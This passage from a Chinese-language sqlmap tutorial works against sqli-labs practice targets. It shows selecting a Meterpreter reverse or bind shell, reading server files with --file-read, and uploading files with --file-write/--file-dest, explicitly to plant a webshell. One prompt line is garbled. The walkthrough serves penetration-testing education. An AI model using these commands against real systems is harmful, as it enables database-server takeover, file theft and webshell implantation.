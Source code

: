 [4] Reverse HTTPS: Connect back from the database host to this machine tunnelling traffic over HTTPS

[5] Bind TCP: Listen on the database host for a connection

> 1

**然后还会提示监听的地址和端口，这里直接回车即可**

![](https://p3.ssl.qhimg.com/t01d5600ba16319fb20.png)

![](https://p2.ssl.qhimg.com/t01715275b9acc1930c.png)

**然后这里选择 payload 的类型，我们这里选择默认的 1**

which payload do you want to use?nt to use? [11563] ' (detected)]

[1] Meterpreter (default)

[2] Shell

[3] VNC

> 1

![](https://p3.ssl.qhimg.com/t01dc5a821ad98334e4.png)

执行完成后，如果不出问题，我们就可以获得一个 MSF 类型的 shell 了。

![](https://p1.ssl.qhimg.com/t011858b704025dfe6a.png)

## 读取服务器文件 (—file-read)

当数据库为 MySQL、PostgreSQL 或 SQL Server，并且当前用户有权限时，可以读取指定文件，可以是文本文件或者二进制文件。

```python
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
```

![](https://p5.ssl.qhimg.com/t01b427170c4f0ab056.png)

可以看到，文件读取成功了，并且保存成了 /root/.sqlmap/output/192.168.10.1/files/c__test.txt 文件

## ![](https://p5.ssl.qhimg.com/t013ae8d3a38bbf4e30.png)

## 上传文件到数据库服务器中 (—file-write—file-dest)

当数据库为 MySQL、Postgre SQL 或者 Sql Server(通过 powershell 写入)，并且当前用户有权限向任意目录写文件的时候，可以上传文件到数据库服务器。文件可以是文本，也可以是二进制文件。

所以利用上传文件，我们可以上传一句话木马或者上传 shell 上去。

前提是我们知道网络的绝对路径

```python
python2 sqlmap.py -u http://192.168.10.130/sqli-labs/Less-2/?id=1 --file-write C:\Users\mi\Desktop\1.php --file-dest "C:\phpStudy\PHPTutorial\WWW\2.php"  #将本地的C:\Users\mi\Desktop\1.php文件上传到目标服务器C:\phpStudy\PHPTutorial\WWW\2.php
```

![](https://p2.ssl.qhimg.com/t01d920ad318047b01b.png)

这里会问我们是否想验证上传成功，我们选择 y 的话，他就会读取该文件的大小，并且和本地的文件大小做比较，只要大于等于本地文件大小即说明上传功能了

![](https://p4.ssl.qhimg.com/t01b2207ac0c22f171d.png)
